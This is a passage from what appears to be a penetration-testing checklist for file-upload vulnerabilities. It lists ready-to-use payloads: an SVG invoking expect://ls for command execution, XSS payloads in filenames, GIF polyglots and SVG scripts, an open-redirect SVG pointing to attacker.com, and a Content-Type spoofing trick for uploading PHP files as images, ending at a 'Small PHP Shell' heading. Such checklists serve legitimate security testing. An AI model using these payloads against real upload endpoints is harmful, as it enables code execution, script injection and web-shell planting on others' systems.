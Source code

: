             ```xml
            <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
                <image xlink:href="expect://ls"></image>
            </svg>
            ```

            - Using Excel file
        - [ ]  XSS
            - Set file name `filename="svg onload=alert(document.domain)>"` , `filename="58832_300x300.jpg<svg onload=confirm()>"`
            - Upload using the `.gif` file

            ```
            GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
            ```

            - Upload using `.svg` file

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
            ```

            ```xml
            <?xml version="1.0" standalone="no"?>
            <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

            <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
               <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
               <script type="text/javascript">
                  alert("HolyBugx XSS");
               </script>
            </svg>
            ```

        - [ ]  Open Redirect
            1. Upload using `.svg` file

            ```xml
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            </code>
            ```

    - Content-type Bypass
        - [ ]  Content-type validation
            - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` 
            to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
        - [ ]  Content-Length validation
            - Small PHP Shell
